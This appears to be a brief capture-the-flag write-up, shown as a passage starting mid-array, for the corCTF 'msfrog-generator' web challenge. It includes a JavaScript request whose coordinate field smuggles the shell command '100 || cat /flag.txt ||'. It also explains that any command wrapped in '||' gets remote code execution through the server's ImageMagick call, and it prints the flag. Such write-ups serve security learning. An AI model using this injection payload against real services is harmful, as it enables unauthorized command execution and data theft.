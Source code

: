 ```js
	{
		"type":`mspoop.png`,
		"pos":{
			"x":`100`,
			"y":`100 || cat /flag.txt ||`,
		}
	}
]
let response = await fetch("https://msfrog-generator.be.ax/api/generate", {
	method: "POST",
	headers: {
		"Content-Type": "application/json",
	},
	body: JSON.stringify(jsonData),
}).then(r=>r.json()).then(data=>console.log(data.msfrog));
```
## TL;DR <a name="tldr">
The server uses imagemagick to combine the images and generates base64 data based on the contents of the POST request.<br>
We can achieve RCE by giving `|| <your command> ||` in place of a coordinate.<br>

The output flag is `corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}`
